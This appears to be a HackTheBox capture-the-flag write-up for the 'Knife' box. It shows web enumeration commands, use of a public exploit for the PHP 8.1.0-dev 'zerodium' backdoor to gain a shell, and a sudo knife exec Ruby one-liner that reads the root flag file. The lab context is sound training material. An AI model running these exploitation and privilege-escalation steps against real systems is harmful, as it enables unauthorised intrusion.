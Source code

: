 ```yaml
---
title: HTB -- Knife
date: 2022-01-20
layout: single
header:
  teaser: assets/images/htb/knife/teaser.png
excerpt: Beginner box teaching web enumeration, php exploitation, and why you shouldn't let users run commands as root.
classes: wide
categories:
  - hackthebox
tags:
  - hackthebox
  - OSCP
---
```


### Summary
![](/assets/images/htb/knife/intro.png)

Knife is another great beginner box for practicing web enumeration. A foothold is found through outdated php leading to a basic shell. From there, the binary `knife` is found to be runnable with sudo, leading to privesc.

# Recon

We see that 22 and 80 are open, looks like a web based box.

![](/assets/images/htb/knife/rustscan.png)

## Web

Browsing to knife.htb gives us the following

![](/assets/images/htb/knife/web.png)

* Directory Brute Force
  * `feroxbuster -u http://knife.htb`
    * Not much returned here -> increase scope
  * `feroxbuster -u http://knife.htb -x php txt js`
    * Only `index.php` is returned
* Subdomain Search
  * `ffuf -w ~/HTB/horizontal/subdomains-top1million-110000.txt -u http://10.10.10.242 -H "Host: FUZZ.knife.htb" | grep -v 200`
  * No results
* Inspection of `Index.php`
  * Looks pretty normal, no input fields or hidden comments
  * Burp suite doesn't show anything weid either
* Nikto
  * `nikto -h http://knife.htb`
  * Apache/2.4.41 (Ubuntu)
  * PHP/8.1.0-dev
    * dev?? this is interesting

## Exploiting PHP

Googling for `PHP/8.1.0-dev` [turns up some CVEs](https://www.exploit-db.com/exploits/49933). The story behind this attack is thatsomeone was able to insert a backdoor into php and keep it hidden, only triggered by a useragent header starting with 'zerodium'. There is a [whole writeup on the exploit](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/) where you can learn more. After looking at the source to understand what params it needs:

```
python3 49933                                                                                             
Enter the full host url:
http://knife.htb

Interactive shell is opened on http://knife.htb 
Can't acces tty; job crontol turned off.
$ whoami
james
```

## Privesc

Amongst privesc methodologies, there are a few low hanging fruit items I like checking before going into a pspy + linpeas workflow. First command I always run is `id` to check groups i'm a part of -- followed by `sudo -l` to see if the box uses sudo for privesc.

```
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Sure enough, it does! GTFOBins should give [examples of how to get root from here](https://gtfobins.github.io/gtfobins/knife)

![](/assets/images/htb/knife/gtfo.png)

Seems that the state of the restricted shell doesn't play nice with this method of getting root. The GTFOBins page also specifies that knife can run ruby code, so a oneliner to print the flag should work fine.

```
$ echo "data = File.read(\"/root/root.txt\"); puts data" > ~/win.rb 

$ sudo knife exec ~/win.rb
05d718*****************
```

root!

